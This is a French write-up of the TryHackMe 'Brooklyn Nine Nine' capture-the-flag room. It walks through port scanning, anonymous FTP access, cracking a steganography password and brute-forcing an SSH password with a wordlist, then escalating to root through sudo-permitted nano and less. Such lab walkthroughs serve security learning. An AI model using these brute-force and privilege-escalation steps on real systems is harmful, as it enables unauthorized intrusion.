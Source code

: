 ```yaml
---
title: "Write-up | Brooklyn Nine Nine"
date: 2020-07-26T21:05:04+02:00
draft: false
tags:
  - writeup
  - tryhackme
---
```


Ce write-up couvrira la room Brooklyn Nine Nine, disponible sur [Try Hack Me](https://www.tryhackme.com). Let's go !

## Reconnaissance

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.37.193
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Il y a un service web, et il est possible de se connecter en FTP avec les creds de base.
J'utilise ensuite `gobuster` afin de voir si il y a des folders cachés sur le serveur.
```
$ gobuster dir -u 10.10.223.156 -w /usr/share/wordlists/dirb/big.txt 
...
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/server-status (Status: 403)
...

```
Rien de bien fou par ici. Je regarde le code source de la page et vois le commentaire suivant :
```html
<!-- Have you ever heard of steganography? -->
```
La page d'accueil est composée d'une seule image, que je récupère.
```
$ steghide info brooklyn99.jpg 
"brooklyn99.jpg":
  format: jpeg
  capacit�: 3,5 KB
```
Elle semble contenir des informations, mais je pas le mot de passe pour extraire les données.

## Exploitation
J'utilise `stegcracker` pour tenter de bruteforcer le mot de passe :
```
$ python3 /home/paradox/.local/bin/stegcracker brooklyn99.jpg 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: [edited]
...
```
Je lis ensuite le fichier : 
```
$ cat brooklyn99.jpg.out
Holts Password:
[edited]

Enjoy!!
```
C'est donc le mot de passe de holt qui est dans ce fichier ! J'essaie de me connecter en SSH avec et ça marche !
```
$ cat user.txt 
[edited]
```
Nous voilà en possession du premier flag !

## Élévation de privilèges
```
$ ls
nano.save  user.txt
```
Il y a un fichier `nano.save` (beurk :p), mais nous n'avons pas les droits pour l'ouvrir. Cependant, `nano` peut être utilisé par holt sans mot de passe !
```
$ sudo -l
...
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
Avec `sudo nano nano.save`, il est possible de lire le contenu du fichier.
Mais bon, on ne va pas s'engager dans cette voie, pour des raisons évidentes :)

En effet, si il est possible d'utiliser `nano` en tant que root ans mot de passe, cela veut dire que nous pouvons lire `/root/root.txt` sans mot de passe également !
```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: [edited]

Enjoy!!
```
Et voilà ! :^)

## Follow The Path
L'intro de la room nous dit :
> There are two main intended ways to root the box.

Essayons de trouver la seconde !

Je n'ai pas encore exploré la piste du service FTP. Pour rappel, on peut se connecter au service FTP avec les creds de base.
```
$ ftp 10.10.223.156
Connected to 10.10.223.156.
220 (vsFTPd 3.0.3)
Name (10.10.223.156:paradox): anonymous
331 Please specify the password.
Password:
230 Login successful.
```
Il y a un fichier intitulé `note_to_jack.txt` dans le repertoire. Je le récupère :
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.08 secs (1.4554 kB/s)
```
et l'ouvre sur ma machine :
```
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
À mon avis, il faut utiliser `hydra` pour bruteforcer le mot de passe SSH de Jake.

Après pas mal de temps, on finit par trouver le mot de passe de Jack, (il est dans `rockyou.txt`).

Une fois connecté en SSH, on voit grâce à `sudo -l` que `less` est utilisable as root sans password. On applique donc la même technique qu'avant, et on peut lire le flag root !
